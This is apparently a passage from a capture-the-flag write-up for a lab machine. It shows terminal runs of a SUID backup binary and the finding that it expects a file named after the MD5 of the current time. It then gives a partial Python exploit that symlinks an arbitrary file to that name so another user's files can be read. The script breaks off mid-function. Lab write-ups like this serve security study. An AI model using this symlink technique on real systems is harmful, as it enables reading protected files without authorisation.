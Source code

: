 ```
chiv@forwardslash:~$ /usr/bin/backup

Current Time: 10:36:13
ERROR: 6ffb670cbb1148ec142a46f36789dcca Does Not Exist or Is Not Accessible By Me, Exiting...

chiv@forwardslash:~$ /usr/bin/backup

Current Time: 10:36:14
ERROR: 6cccb9416e0ecd3195869dbdc1b57663 Does Not Exist or Is Not Accessible By Me, Exiting...

chiv@forwardslash:~$ /usr/bin/backup

Current Time: 10:36:14
ERROR: 6cccb9416e0ecd3195869dbdc1b57663 Does Not Exist or Is Not Accessible By Me, Exiting...
```

Hashing the printed *Current Time* returns the same exact value. We are getting closer!

```
chiv@forwardslash:~$ echo -n '10:36:14' | md5sum | awk '{print $1}'

6cccb9416e0ecd3195869dbdc1b57663
```

Created a Python PoC that executes the SUID binary twice. Explanation below:

- 1st Iteration: Runs the binary and grabs the time to get the hash (we could directly get the hash from the output but I wanted to practice regex and hashing XD).
- 2nd Iteration: Creates a symlink with `ln -s` to achieve arbitrary file reading (the SUID owner is *Pain* so if he can read it, we also can).

```python
import argparse
import hashlib
import re
import shlex
import subprocess
import sys

def md5_for_me(time):
    hash = hashlib.md5()
    hash.update(time.encode())

    return hash.hexdigest()

def exploit(file):

    # get time in hh:mm:ss format. Ex: 13:37:00
    command1 = '/usr/bin/backup'
    output1 = subprocess.check_output(shlex.split(command1)).decode()
    pattern = r'\d{2}:\d{2}:\d{2}'
    time = re.findall(pattern, output1)[0]

    print(f"\n[+] Script's time: {time}")

    # get hash
    hash = md5_for_me(time)
    print(f"\n[+] Generated hash: {hash}")

    # abuse via symlink
    command1 = f'/bin/ln -s {file} {hash}'
    subprocess.run(shlex.split(command1), stdout=subprocess.DEVNULL)
    
    command2 = f'/usr/bin/backup'
    file_dump = '\n'.join((subprocess.check_output(shlex.split(command2)).decode()).split('\n')[8:])
```